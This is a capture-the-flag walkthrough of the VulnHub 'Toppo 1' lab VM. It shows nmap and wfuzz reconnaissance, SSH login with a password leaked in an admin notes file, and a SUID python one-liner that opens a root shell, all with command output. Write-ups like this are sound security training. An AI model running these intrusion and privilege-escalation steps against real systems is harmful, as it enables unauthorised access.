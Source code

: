 ```yaml
---
title: VulnHub - Toppo 1
author: s4rgaz
date: 2021-10-07 13:00:22 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, file disclosure]
---
```


**Description:** A linux machine hosting a web site which contains the credentials to login via SSH to the server. Granting special SUID permissions to the python binary allowed to gain root privileges.

**Author:** Hadi Mene

**Operating System:** Linux

**Download:**[https://www.vulnhub.com/entry/toppo-1,245/](https://www.vulnhub.com/entry/toppo-1,245/)

## Information Gathering
### Host Discovery

With nmap I discovered the target machine on the local network.

```console
root@kali:~$ nmap -n -sn 192.168.179.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 12:40 -05
Nmap scan report for 192.168.179.1
Host is up.
Nmap scan report for 192.168.179.154
Host is up (0.00070s latency).
MAC Address: 08:00:27:CB:BD:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.179.254
Host is up (0.00029s latency).
MAC Address: 00:50:56:F0:4D:8E (VMware)
```

### Port Scanning

Then, I did a full TCP port scan to discover open ports.

```console
root@kali:~$ nmap -T4 -v -n -p- 192.168.179.154 -oG nmap/all-tcp-ports.txt
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48238/tcp open  unknown
```

### Service Enumeration

Then I performed the version detection and OS, script scanning and traceroute on the target host.

```console
root@kali:~$ nmap -A -v -p22,80,111,48238 192.168.179.154 -oN nmap/service-enum.txt
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000) 
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37372/udp   status 
|   100024  1          48238/tcp   status 
|   100024  1          52388/udp6  status 
|_  100024  1          57788/tcp6  status
48238/tcp open  status  1 (RPC #100024)
```

### Web Enumeration

In the web page, at first glance I didn't find anything important, so I decided run wfuzz to find files and directories hidden.

![](/assets/images/toppo/screenshot-1.png)

```console
root@kali:~$ wfuzz -c --hc 404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.179.154/FUZZ
...
000000039:   301        9 L      28 W       316 Ch      "img"
000000201:   301        9 L      28 W       317 Ch      "mail"
000000259:   301        9 L      28 W       318 Ch      "admin"
000000550:   301        9 L      28 W       316 Ch      "css"
000000730:   301        9 L      28 W       319 Ch      "manual"
000000953:   301        9 L      28 W       315 Ch      "js"
000001481:   301        9 L      28 W       319 Ch      "vendor"
000003295:   200        21 L     172 W      1093 Ch     "LICENSE"
```

Listing the admin directory I found the notes.txt file, as we can see this contains a password, this possibly belongs to the ted user, since it's included in the password.

![](/assets/images/toppo/screenshot-2.png)

![](/assets/images/toppo/screenshot-3.png)

## Exploitation
### Access via ssh

I tried to log in to the server via SSH with the user **ted** and password **12345ted123**, and the access was successful.

```console
root@kali:~$ ssh ted@192.168.179.154             
ted@192.168.179.154's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$
```

Enumerating for SUID binaries, I found the python binary with this permission, we can abuse this to escalate our privileges.  

```console
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null 
...
/usr/bin/python2.7
...
```

## Privilege Escalation
### SUID binary

To get root I used the following python instruction, this imports the os module which allows you to run the execl() function, this subroutine runs an executable file indicated by the path, in this case the bash binary, this method was obtained from the [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) guide.

```console
ted@Toppo:~$ python -c 'import os; os.execl("/bin/bash","bash","-p")'
bash-4.3# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
bash-4.3# whoami
root

bash-4.3# cd /root
bash-4.3# ls
flag.txt
bash-4.3# cat flag.txt 
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```
